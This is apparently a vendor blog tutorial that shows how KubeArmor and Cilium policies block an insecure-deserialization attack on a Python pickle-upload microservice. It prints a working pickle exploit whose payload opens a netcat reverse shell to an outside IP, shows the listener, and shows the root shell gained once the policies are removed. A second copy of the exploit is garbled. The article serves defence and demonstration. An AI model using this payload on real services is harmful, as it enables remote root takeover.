



How to Protect Python micro-services using AccuKnox?¶
Introduction¶
Today's complex systems are highly distributed. Since components communicate with each other and share information (such as shifting data between services, storing information, etc.), the native binary format is not ideal. We use serialization to transform this binary data into a string (ASCII characters) so that it can be moved using standard protocols.
Serialization operations are extremely frequent in architectures that include APIs, microservices, and client-side MVC. When the data under serialization and deserialization are reliable (under the control of the system), there is no risk.
Oftentimes, developers tend to import third-party libraries that are relatively easy to use. Doing so, they unknowingly introduce vulnerabilities through these shared third-party libraries and modules. In this blog, we're going to have a closer look at Insecure Deserialization.
Insecure deserialization is a type of vulnerability that occurs when an attacker is able to manipulate the serialized object and result in unintended consequences in the program's flow. This may lead to a DoS, authentication bypass, or even an RCE.
Let's take a look at a python microservice with some insecure modules. We will also discuss how to protect (at runtime) against such vulnerabilities using AccuKnox.
Setting up a Python microservice to demonstrate runtime security¶
In this blog, we will demonstrate how to protect your Python microservices against such threats by implementing runtime security tools from AccuKnox. These will analyze the application and generate policies that can be enforced by Linux Security Modules (LSMs) like AppArmor and SELinux.
Let's create a microservice for online file uploads. We will define an API for them and write the Python code which implements them in the form of microservices.
To keep things manageable, we’ll define only two microservices:
-
Pickle-app – the main program which takes in the uploaded files as input and stores them in a MySQL database.
-
MySQL – the storage part for pickle-app

You can see that the user will interact with the pickle-app microservice via their browser, and the pickle-app microservice will interact with the MySQL microservice.
The scenario's purpose is to demonstrate how AccuKnox opensource tools can be used to implement zero trust in an environment.¶
Let's create a Kubernetes cluster
gcloud container clusters create sample-cluster --zone us-central1-c
Once the cluster is up and running we will deploy the application on a Kubernetes cluster and onboard the cluster to AccuKnox.
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/python-flask/k8s.yaml
We’ll also get the external IP for the python flask application using the following command:
kubectl get svc
NAME TYPE CLUSTER-IP EXTERNAL-IP PORT(S) AGE
kubernetes ClusterIP 10.16.0.1 <none> 443/TCP 9h
pickle-svc LoadBalancer 10.16.0.23 34.123.162.173 80/TCP 9h
For detailed steps on how to onboard your cluster kindly go through our help section.
The full code for the microservice can be found on this GitHub repo
Runtime protection using AccuKnox Open-source tools¶
AccuKnox enables the ability to protect your workloads at runtime. AccuKnox enables this by allowing you to configure policies (or auto-discover them) for application and network behavior using KubeArmor, Cilium, and Auto Policy Discovery tools
KubeArmor
KubeArmor, an open-source software that enables you to protect your cloud workload at runtime.
The problem that KubeArmor solves is that it can prevent cloud workloads from executing malicious activity at runtime. Malicious activity can be any activity that the workload was not designed for or is not supposed to do.
Cilium
Cilium, an open-source project to provide eBPF-based networking, security, and observability for cloud-native environments such as Kubernetes clusters and other container orchestration platforms.
Auto Policy Discovery for your Python microservice¶
Even though writing KubeArmor and Cilium (System and Network) policies are not a big challenge AccuKnox opensource has it simplified one step further by introducing a new CLI tool for Auto Discovered Policies. The Auto-Discovery module helps users by identifying the flow and generating policies based on it.
Discovering policies has never been better with Auto Discovery. In two simple commands, you can set up and generate policies without having any trouble.
We will use AccuKnox Auto Discovered Policies to generate zero-trust runtime security policies to secure our workload.
The auto-discovered zero trust runtime security policies can be generated using two commands. We will have to deploy Cilium and KubeArmor to the cluster and use a MySQL pod to store the discovered policies from where they can be downloaded with a single command.
First, we will use the below command to install all prerequisites.
curl -s https://raw.githubusercontent.com/accuknox/tools/main/install.sh | bash`
-
KubeArmor protection engine
-
Cilium CNI
-
Auto policy discovery engine
-
MySQL database to keep discovered policies
-
Hubble Relay and KubeArmor Relay
Once this is down we can invoke the second script file which will download the auto-discovered policies from the MySQL database and store them locally. For this we will issue the below command:
curl -s https://raw.githubusercontent.com/accuknox/tools/main/get_discovered_yamls.sh | bash`
You should be able to see the following output.
Got 1 cilium policies in file cilium_policies.yaml
Got 1 kubearmor policies in file kubearmor_policies_default_explorer_knoxautopolicy_fxbpvndp.yaml
Got 1 kubearmor policies in file kubearmor_policies_default_explorer_mysql_xaqsryye.yaml
Got 1 kubearmor policies in file kubearmor_policies_default_python-ms_pickle-app_engncdqs.yaml`
In mere seconds after installing executing auto policy discovery tool, it generated 1 Cilium policy and 3 curated KubeArmor policies.
Let us take a look at some of the autodiscovery policies
Cilium Policy
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
name: autopol-egress-fdjkltpvf
namespace: default
spec:
endpointSelector:
matchLabels:
app: pickle-app
ingress:
- fromEndpoints:
toPorts:
- ports:
- port: "80"
protocol: TCP
KubeArmor Policy
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
name: autopol-system-269415943
namespace: default
spec:
severity: 1
selector:
matchLabels:
app: pickle-app
file:
matchPaths:
- path: /app/templates/index.html
fromSource:
- path: /usr/bin/python3.8
- path: /app/templates/layout.html
fromSource:
- path: /usr/bin/python3.8
- path: /app/templates/uploads.html
fromSource:
- path: /usr/bin/python3.8
- path: /usr/lib/python3.8/encodings/__pycache__/unicode_escape.cpython-38.pyc
fromSource:
- path: /usr/bin/python3.8
action: Allow
Note
Policy name will change according to environment
We also have predefined policies in the policy-template GitHub repository which can be utilized to achieve the same level of runtime security without having to generate autodiscovery policies. The only point to remember is that you need to know the namespace and labels for your Python workloads
The Policies in-action¶
It is time to verify whether we were able to achieve zero trust by using the auto-discovered policies generated by AccuKnox opensource tools. To test this we will scan the application with some popular scanners.
Before that let us verify that the policies are applied correctly to the cluster
kubectl get cnp,ksp -A
NAMESPACE NAME AGE
default ciliumnetworkpolicy.cilium.io/autopol-egress-fdjkltpvf 15m
NAMESPACE NAME AGE
default kubearmorpolicy.security.kubearmor.com/autopol-system-269415943 14m
Initiating the Attack scenario¶
By using Burpsuite as initial recon, we were able to determine that it is running on a python server and the API name gave away that it uses the pickle module.
We’ll make use of the pickle module and write a python exploit that lets us create a reverse shell onto the pod.
Create a python file and name it exploit.py and then we'll create our class RCE and let its reduce method return a tuple of arguments for the callable object.
import pickle
import base64
import os
class RCE:
def __reduce__(self):
cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
'/bin/sh -i 2>&1 | nc 34.125.245.75 4444 > /tmp/f')
return os.system, (cmd,)
if __name__ == '__main__':
pickled = pickle.dumps(RCE())
with open('parrot.pkl', 'wb') as f:
pickle.dump(RCE(), f)
print(base64.urlsafe_b64encode(pickled))
Our callable will be os.system and the argument will be a common reverse shell snippet using a named pipe. Let's create a .pkl file and upload it to the application via UI. Before executing let's take a look at the exploit file itself.
cat exploit.py
import pickle
import base64
import os
class RCE:
def __reduce__(self):
cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
'/bin/sh 2>&1 1 nc 34.125.245.75 4444 > /tmp/f')
return os.system, (cmd,)
if name == '__main__''
pickled = pickle.dumps(RCE())
with open('parrotl.pkl', 'wb'') as f:
pickle.dump(RCE(), f)
print(base64.urlsafe_b64encode(pickled))
Time to create our python exploit payload.
python3 exploit.py
b'gA5VcgAAAAAAAACMBXByc2l4lIwGc3lzdUtlJOUjEdyb5AydGlwL2Y7IG1r2mlmbyAydGlwL2Y7IGNhdCAydGlwL2YgfC 1wL2aUliZR5lC4='
We will use nc -lnvp 4444 command to listen to incoming connection on port 4444.
nc -lnvp 4444
listening on [any] 4444 ...
We’ll go to http://34.123.162.173/upload_pickle and upload the exploit file parrot.pkl which we created earlier.
We’ll get a success message file upload successfully without a reverse shell opened on the listener machine.

nc -lnvp 4444
listening on [any] 4444 ...
Checking the policy logs on KubeArmor¶
To check how to do it, kindly go through our help section
Blocked Log Created by KubeArmor
{
"timestamp": 1638223573,
"updatedTime": "2021-11-29T22:06:13.493285Z",
"hostName": "gke-sample-cluster-default-pool-3be49535-k4cp",
"namespaceName": "default",
"podName": "pickle-app-6d8c67b4f6-fk2qs",
"containerID": "9e57f01622b423e04bb2071d54f95dca2044a3f8467e897c5b696307a6080be7",
"containerName": "pickle-app",
"hostPid": 1158108,
"ppid": 370,
"pid": 371,
"uid": 0,
"policyName": "autopol-system-269415943",
"severity": "1",
"type": "MatchedPolicy",
"source": "python3",
"operation": "Process",
"resource": "/bin/sh -c rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 34.125.245.75 4444 > /tmp/f",
"data": "syscall=SYS_EXECVE",
"action": "Block",
"result": "Permission denied"
}
Now let us delete the policies which we applied after auto discovering and run the scenario once more
kubectl apply delete cnp,ksp --all
ciliumnetworkpolicy.cilium.io "autopol-egress-fdjkltpvf" deleted
kubearmorpolicy.security.kubearmor.com "autopol-system-269415943" deleted
The moment we upload the parrot.pkl file we will get a reverse shell opened on the listener machine.

nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.182.0.13] from (UNKNOWN) [35.184.238.249] 38292
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#hostname
pickle-app-7f7fbdb76b-64mq5
AccuKnox's policy templates repository¶
AccuKnox's policy templates is an open-source repo that also contains a wide range of attack prevention techniques including MITRE, as well as hardening techniques for your workloads. Please visit policy-templates to download and apply policies.
Conclusion¶
Insecure deserialization is very difficult to identify while conducting security tests. Insecure deserialization can be prevented by going through the source code for the vulnerable code base and by input validation and output sanitization. Insecure deserialization in conjunction with a Remote Code Execution (RCE) will undoubtedly compromise the entire infrastructure.
Using KubeArmor, an organization can effectively protect against these sorts of accidental developer-introduced vulnerabilities.